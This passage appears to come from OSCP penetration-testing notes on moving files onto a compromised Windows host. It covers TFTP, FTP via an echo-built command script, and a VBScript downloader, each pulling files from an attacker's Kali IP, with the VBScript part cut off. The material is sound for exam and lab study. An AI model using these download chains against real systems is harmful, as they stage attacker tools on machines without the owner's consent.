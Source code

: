 On Windows:
```cmd
tftp -i [kali ip] get [file]
```

### FTP
All Windows.

Fast speed of 206kb/sec. Scripts available in OSCP-Notes/scripts

On Kali:
```sh
#!/bin/bash
apt update && apt install pure-ftpd
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome # use user offsec when logging into ftp
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome # DIRECTORY HOSTING FILES
chown -R ftpuser:ftpgroup /ftphome/
service pure-ftpd restart
```

On Windows:
```cmd
echo open [kali ip] 21> ftp.txt
echo USER offsec>> ftp.txt # username
echo ftp>> ftp.txt # password
echo bin>> ftp.txt # binary mode
echo GET [file]>> ftp.txt
echo bye>> ftp.txt
ftp -v -n -s:ftp.txt
# or
echo open [kali ip] 21>ftp.txt&echo USER offsec>>ftp.txt&echo ftp>>ftp.txt&echo bin>>ftp.txt&echo GET [file]>>ftp.txt&echo bye>>ftp.txt&ftp -v -n -s:ftp.txt
```

### VBScript via HTTP
Windows XP, 2003

Moderate speed of 50kb/sec. Scripts available in OSCP-Notes/scripts

On Kali:
```sh
service apache2 start
# /var/www/html # DIRECTORY HOSTING FILES
```

On Windows:
```cmd
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
```